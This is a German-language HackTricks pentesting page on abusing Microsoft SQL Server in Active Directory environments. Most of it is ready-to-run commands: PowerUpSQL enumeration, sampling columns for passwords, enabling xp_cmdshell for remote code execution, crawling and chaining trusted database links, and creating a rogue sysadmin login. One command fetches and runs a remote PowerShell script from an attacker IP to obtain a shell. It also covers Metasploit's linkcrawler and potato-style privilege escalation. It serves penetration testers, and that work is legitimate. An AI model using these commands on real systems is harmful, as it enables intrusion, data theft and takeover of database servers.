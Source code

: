 # MSSQL AD Missbrauch

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Arbeiten Sie in einem **Cybersicherheitsunternehmen**? Möchten Sie Ihr **Unternehmen in HackTricks beworben sehen**? Oder möchten Sie Zugriff auf die **neueste Version des PEASS erhalten oder HackTricks im PDF-Format herunterladen**? Überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* **Treten Sie der** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie mir auf **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an das** [**HackTricks-Repository**](https://github.com/carlospolop/hacktricks) **und das** [**HackTricks-Cloud-Repository**](https://github.com/carlospolop/hacktricks-cloud) **senden**.

</details>

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


## **MSSQL Enumeration / Entdeckung**

Das Powershell-Modul [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) ist in diesem Fall sehr nützlich.
```powershell
Import-Module .\PowerupSQL.psd1
```
### Enumerieren aus dem Netzwerk ohne Domänen-Sitzung
```powershell
# Get local MSSQL instance (if any)
Get-SQLInstanceLocal
Get-SQLInstanceLocal | Get-SQLServerInfo

#If you don't have a AD account, you can try to find MSSQL scanning via UDP
#First, you will need a list of hosts to scan
Get-Content c:\temp\computers.txt | Get-SQLInstanceScanUDP –Verbose –Threads 10

#If you have some valid credentials and you have discovered valid MSSQL hosts you can try to login into them
#The discovered MSSQL servers must be on the file: C:\temp\instances.txt
Get-SQLInstanceFile -FilePath C:\temp\instances.txt | Get-SQLConnectionTest -Verbose -Username test -Password test
```
### Enumerieren innerhalb der Domäne
```powershell
# Get local MSSQL instance (if any)
Get-SQLInstanceLocal
Get-SQLInstanceLocal | Get-SQLServerInfo

#Get info about valid MSQL instances running in domain
#This looks for SPNs that starts with MSSQL (not always is a MSSQL running instance)
Get-SQLInstanceDomain | Get-SQLServerinfo -Verbose

#Test connections with each one
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -verbose

#Try to connect and obtain info from each MSSQL server (also useful to check conectivity)
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose

# Get DBs, test connections and get info in oneliner
Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLServerInfo
```
## MSSQL Grundlegender Missbrauch

### Zugriff auf die Datenbank
```powershell
#Perform a SQL query
Get-SQLQuery -Instance "sql.domain.io,1433" -Query "select @@servername"

#Dump an instance (a lotof CVSs generated in current dir)
Invoke-SQLDumpInfo -Verbose -Instance "dcorp-mssql"

# Search keywords in columns trying to access the MSSQL DBs
## This won't use trusted SQL links
Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLColumnSampleDataThreaded -Keywords "password" -SampleSize 5 | select instance, database, column, sample | ft -autosize
```
### MSSQL RCE

Es könnte auch möglich sein, **Befehle** innerhalb des MSSQL-Hosts auszuführen
```powershell
Invoke-SQLOSCmd -Instance "srv.sub.domain.local,1433" -Command "whoami" -RawResults
# Invoke-SQLOSCmd automatically checks if xp_cmdshell is enable and enables it if necessary
```
### MSSQL Grundlegende Hacking-Tricks

{% content-ref url="../../network-services-pentesting/pentesting-mssql-microsoft-sql-server/" %}
[pentesting-mssql-microsoft-sql-server](../../network-services-pentesting/pentesting-mssql-microsoft-sql-server/)
{% endcontent-ref %}

## MSSQL Vertrauenswürdige Verknüpfungen

Wenn eine MSSQL-Instanz von einer anderen MSSQL-Instanz als vertrauenswürdig (Datenbankverknüpfung) angesehen wird. Wenn der Benutzer Berechtigungen für die vertrauenswürdige Datenbank hat, kann er **die Vertrauensbeziehung nutzen, um auch Abfragen in der anderen Instanz auszuführen**. Diese Vertrauensverhältnisse können verkettet werden, und an einem bestimmten Punkt könnte der Benutzer eine schlecht konfigurierte Datenbank finden, in der er Befehle ausführen kann.

**Die Verknüpfungen zwischen Datenbanken funktionieren sogar über Waldvertrauensstellungen.**

### Powershell Missbrauch
```powershell
#Look for MSSQL links of an accessible instance
Get-SQLServerLink -Instance dcorp-mssql -Verbose #Check for DatabaseLinkd > 0

#Crawl trusted links, starting from the given one (the user being used by the MSSQL instance is also specified)
Get-SQLServerLinkCrawl -Instance mssql-srv.domain.local -Verbose

#If you are sysadmin in some trusted link you can enable xp_cmdshell with:
Get-SQLServerLinkCrawl -instance "<INSTANCE1>" -verbose -Query 'EXECUTE(''sp_configure ''''xp_cmdshell'''',1;reconfigure;'') AT "<INSTANCE2>"'

#Execute a query in all linked instances (try to execute commands), output should be in CustomQuery field
Get-SQLServerLinkCrawl -Instance mssql-srv.domain.local -Query "exec master..xp_cmdshell 'whoami'"

#Obtain a shell
Get-SQLServerLinkCrawl -Instance dcorp-mssql  -Query 'exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.114:8080/pc.ps1'')"'

#Check for possible vulnerabilities on an instance where you have access
Invoke-SQLAudit -Verbose -Instance "dcorp-mssql.dollarcorp.moneycorp.local"

#Try to escalate privileges on an instance
Invoke-SQLEscalatePriv –Verbose –Instance "SQLServer1\Instance1"

#Manual trusted link queery
Get-SQLQuery -Instance "sql.domain.io,1433" -Query "select * from openquery(""sql2.domain.io"", 'select * from information_schema.tables')"
## Enable xp_cmdshell and check it
Get-SQLQuery -Instance "sql.domain.io,1433" -Query 'SELECT * FROM OPENQUERY("sql2.domain.io", ''SELECT * FROM sys.configurations WHERE name = ''''xp_cmdshell'''''');'
Get-SQLQuery -Instance "sql.domain.io,1433" -Query 'EXEC(''sp_configure ''''show advanced options'''', 1; reconfigure;'') AT [sql.rto.external]'
Get-SQLQuery -Instance "sql.domain.io,1433" -Query 'EXEC(''sp_configure ''''xp_cmdshell'''', 1; reconfigure;'') AT [sql.rto.external]'
## If you see the results of @@selectname, it worked
Get-SQLQuery -Instance "sql.rto.local,1433" -Query 'SELECT * FROM OPENQUERY("sql.rto.external", ''select @@servername; exec xp_cmdshell ''''powershell whoami'''''');'
```
### Metasploit

Sie können ganz einfach vertrauenswürdige Links mit Metasploit überprüfen.
```bash
#Set username, password, windows auth (if using AD), IP...
msf> use exploit/windows/mssql/mssql_linkcrawler
[msf> set DEPLOY true] #Set DEPLOY to true if you want to abuse the privileges to obtain a meterpreter session
```
Notice, dass Metasploit nur die `openquery()`-Funktion in MSSQL missbrauchen wird (wenn Sie also keinen Befehl mit `openquery()` ausführen können, müssen Sie die `EXECUTE`-Methode **manuell** ausprobieren, um Befehle auszuführen, siehe unten.)

### Manuell - Openquery()

Von **Linux** aus könnten Sie eine MSSQL-Konsolenshell mit **sqsh** und **mssqlclient.py** erhalten.

Von **Windows** aus könnten Sie auch die Links finden und Befehle manuell mit einem **MSSQL-Client wie** [**HeidiSQL**](https://www.heidisql.com) ausführen.

_Anmeldung mit Windows-Authentifizierung:_

![](<../../.gitbook/assets/image (805).png>)

#### Vertrauenswürdige Links finden
```sql
select * from master..sysservers;
EXEC sp_linkedservers;
```
![](<../../.gitbook/assets/image (713).png>)

#### Führen Sie Abfragen in vertrauenswürdigem Link aus

Führen Sie Abfragen über den Link aus (Beispiel: Finden Sie weitere Links in der neuen zugänglichen Instanz):
```sql
select * from openquery("dcorp-sql1", 'select * from master..sysservers')
```
{% hint style="warning" %}
Überprüfen Sie, wo doppelte und einfache Anführungszeichen verwendet werden, es ist wichtig, sie auf diese Weise zu verwenden.
{% endhint %}

![](<../../.gitbook/assets/image (640).png>)

Sie können diese vertrauenswürdigen Links-Kette manuell endlos fortsetzen.
```sql
# First level RCE
SELECT * FROM OPENQUERY("<computer>", 'select @@servername; exec xp_cmdshell ''powershell -w hidden -enc blah''')

# Second level RCE
SELECT * FROM OPENQUERY("<computer1>", 'select * from openquery("<computer2>", ''select @@servername; exec xp_cmdshell ''''powershell -enc blah'''''')')
```
Wenn Sie Aktionen wie `exec xp_cmdshell` von `openquery()` nicht ausführen können, versuchen Sie es mit der `EXECUTE`-Methode.

### Manuell - AUSFÜHREN

Sie können auch vertrauenswürdige Verknüpfungen mit `EXECUTE` missbrauchen:
```bash
#Create user and give admin privileges
EXECUTE('EXECUTE(''CREATE LOGIN hacker WITH PASSWORD = ''''P@ssword123.'''' '') AT "DOMINIO\SERVER1"') AT "DOMINIO\SERVER2"
EXECUTE('EXECUTE(''sp_addsrvrolemember ''''hacker'''' , ''''sysadmin'''' '') AT "DOMINIO\SERVER1"') AT "DOMINIO\SERVER2"
```
## Lokale Privilegieneskalation

Der **MSSQL-Local-User** hat in der Regel eine spezielle Art von Berechtigung namens **`SeImpersonatePrivilege`**. Dies ermöglicht dem Konto, "einen Client nach der Authentifizierung zu übernehmen".

Eine Strategie, die viele Autoren entwickelt haben, besteht darin, einen SYSTEM-Dienst dazu zu zwingen, sich bei einem von einem Angreifer erstellten Rogue- oder Man-in-the-Middle-Dienst zu authentifizieren. Dieser Rogue-Dienst kann dann den SYSTEM-Dienst imitieren, während er versucht, sich zu authentifizieren.

[SweetPotato](https://github.com/CCob/SweetPotato) enthält eine Sammlung dieser verschiedenen Techniken, die über den Befehl `execute-assembly` von Beacon ausgeführt werden können.


<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Arbeiten Sie in einem **Cybersicherheitsunternehmen**? Möchten Sie Ihr **Unternehmen in HackTricks beworben sehen**? Oder möchten Sie Zugriff auf die **neueste Version des PEASS erhalten oder HackTricks im PDF-Format herunterladen**? Überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* **Treten Sie der** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie mir auf **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an das** [**HackTricks-Repo**](https://github.com/carlospolop/hacktricks) **und das** [**HackTricks-Cloud-Repo**](https://github.com/carlospolop/hacktricks-cloud) **einreichen**.

</details>
